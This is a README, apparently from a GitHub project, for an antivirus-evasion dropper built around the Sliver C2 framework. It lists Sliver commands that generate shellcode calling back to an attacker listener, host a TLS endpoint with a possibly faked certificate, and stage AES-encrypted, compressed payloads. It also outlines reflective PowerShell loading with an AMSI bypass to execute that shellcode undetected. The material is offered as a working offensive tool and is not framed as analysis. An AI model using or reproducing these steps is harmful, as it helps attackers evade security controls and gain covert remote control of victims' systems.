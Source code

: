 # Bypass AV with Sliver c2
Dropper + reflective load script for bypassing AV with sliver c2

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

Compression is a huge IOC so I may change this to remove

## In Sliver

Create new profile

`profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 my_profile`

Host SSL cert (you can fake with msf impersonate_ssl)

`https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key`

Stage profile shellcode

`stage-listener --url https://192.168.1.11:8080 --profile my_profile -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropper

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly, and the dropper is not evasive at all (you need AMSI bypass).

1. Read in solution DLL assembly

`get-content -encoding byte -path .\sliverloader.dll | clip`

2. Convert your keys and IV to raw bytes.

3. Update loader script

4. Use CLR AMSI bypass for entire process unhook
